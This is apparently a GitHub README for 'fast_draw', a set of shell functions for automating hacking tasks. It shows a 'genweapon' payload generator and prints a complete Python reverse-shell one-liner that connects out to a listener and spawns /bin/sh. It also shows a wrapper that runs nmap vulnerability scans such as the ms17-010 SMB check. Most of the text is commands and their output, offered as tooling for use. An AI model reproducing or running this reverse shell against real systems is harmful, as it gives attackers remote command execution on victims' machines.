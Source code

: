 # fast_draw

Shellscripts functions to automate stuff in hacking


## How use: 
### Generating payloads: 
#### Listing
```
$ genweapon help
[!] Help menu:
bash list -> List available payloads
bash generate PAYLOAD_PATH LHOST LPORT OUTPUT
	 Example: bash generate payloads/python/reverse_tcp 127.0.0.1 443 /tmp/shell.p
```

#### Creating 
```
$ genweapon generate payloads/python/reverse_tcp 127.0.0.1 443 /tmp/pyshell.py 
[-] Generating the payload
[-] Payload saved at /tmp/pyshell.py
operador@remember:~/scripts/shellscript/fast_draw$ cat /tmp/pyshell.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Automating nmap nse scans: 
Syntax: 

```
nse smb target ports 
```

Example: 

```
$ nse ms17-010 192.168.10.10 139,445
sudo nmap -p 139,445 --script=smb-vuln-ms17-010.nse -oN nmap_nse_smb-vuln-ms17-010.nse 192.168.10.10

```
